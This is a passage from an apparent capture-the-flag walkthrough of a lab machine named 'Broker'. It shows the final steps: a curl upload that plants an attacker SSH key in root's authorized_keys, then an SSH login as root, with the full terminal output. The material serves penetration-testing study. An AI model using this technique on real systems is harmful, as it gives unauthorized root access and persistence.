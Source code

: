We can now upload this key to the target machine using the following command:

```
$ curl 10.10.11.243:1337/root/.ssh/authorized_keys --upload-file broker
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0<html>
<head><title>405 Not Allowed</title></head>
<body>
<center><h1>405 Not Allowed</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
  6  2756  100   166    0     0    553      0 --:--:-- --:--:-- --:--:--   594
```

Now we are all set to login as the `root` user, 

```
$ ssh -i broker root@10.10.11.243
The authenticity of host '10.10.11.243 (10.10.11.243)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.243' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Dec 20 05:07:41 PM UTC 2023

  System load:           0.0390625
  Usage of /:            76.2% of 4.63GB
  Memory usage:          16%
  Swap usage:            0%
  Processes:             215
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.243
  IPv6 address for eth0: dead:beef::250:56ff:feb9:2be6


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Dec 20 05:46:42 2023 from 10.10.14.38
root@broker:~# 
```
